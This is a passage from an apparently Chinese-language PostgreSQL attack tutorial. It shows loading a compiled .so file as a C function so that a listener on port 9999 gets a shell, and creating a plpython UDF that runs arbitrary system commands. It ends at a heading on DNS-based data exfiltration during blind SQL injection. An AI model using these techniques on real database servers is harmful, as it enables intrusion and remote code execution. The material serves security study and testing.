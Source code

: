 利用如下命令编译 .so 文件：   
  
```
gcc 1.c -I`pg_config --includedir-server` -fPIC -shared -o /tmp/1.so
```
  
在 pgsql 里执行：   
  
```
CREATE OR REPLACE FUNCTION exec()  RETURNS text AS  '/tmp/1.so', 'exec' LANGUAGE C STRICT;
select exec();
```
  
监听的 9999 端口得到一个 shell：  
  
![pic1](20161018_02_pic_001.png)    
  
### Python
默认 PostgreSQL 不会安装 Python 的扩展，在 Ubuntu 下可以通过：   
  
```
apt-get install postgresql-plpython-9.1
```
  
进行安装，除了 python 的扩展，还有 sh、perl、ruby 等等。  
  
安装完成后，首先是创建一个 UDF 来执行我们要执行的命令： 
  
```
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython2u;
```
  
其中的 plpython2u 可以利用如下语句获取：  
  
```
select * from pg_language;
```
  
我们可以根据返回来判断利用哪个语言（plpython2u、plpythonu、plpython3u 等等）。   
  
![pic2](20161018_02_pic_002.png)    
  
创建好 UDF 后，直接调用如下语句即可：  
  
```
select system('ls -la');
```
  
![pic3](20161018_02_pic_003.png)    
  
此外，sh、ruby 等同理，可以参考官方文档来写一个 UDF。   
  
文档地址：http://www.postgresql.org/docs/8.2/static/server-programming.html   
  
## DNS 请求获取数据
同样的，PostgreSQL 可以通过 DNS Request 一样获取数据，在盲注的情况下。  
  